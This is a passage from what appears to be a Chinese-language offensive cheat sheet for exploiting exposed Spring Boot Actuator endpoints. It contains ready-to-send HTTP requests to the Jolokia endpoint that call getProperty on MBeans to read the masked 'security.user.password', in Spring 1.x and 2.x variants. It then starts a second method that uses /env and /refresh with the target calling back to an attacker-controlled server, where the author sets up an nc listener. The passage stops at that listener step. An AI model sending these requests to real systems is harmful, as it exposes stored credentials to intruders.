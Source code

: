 spring 2.x

```http
POST /actuator/jolokia HTTP/1.1
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

- 调用 `org.springframework.cloud.context.environment` Mbean

> 实际上是调用 org.springframework.cloud.context.environment.EnvironmentManager 类实例的 getProperty 方法

spring 1.x

```http
POST /jolokia HTTP/1.1
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

spring 2.x

```http
POST /actuator/jolokia HTTP/1.1
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

- 调用其他 Mbean

> 目标具体情况和存在的 Mbean 可能不一样，可以搜索 getProperty 等关键词，寻找可以调用的方法。

### 0x04：获取被星号脱敏的密码的明文 (方法二)

#### 利用条件

- 可以 GET 请求目标网站的 `/env`
- 可以 POST 请求目标网站的 `/env`
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标使用了 `spring-cloud-starter-netflix-eureka-client` 依赖
- 目标可以请求攻击者的服务器（请求可出外网）

#### 利用方法

##### 步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。

##### 步骤二： 使用 nc 监听 HTTP 请求

在自己控制的外网服务器上监听 80 端口：
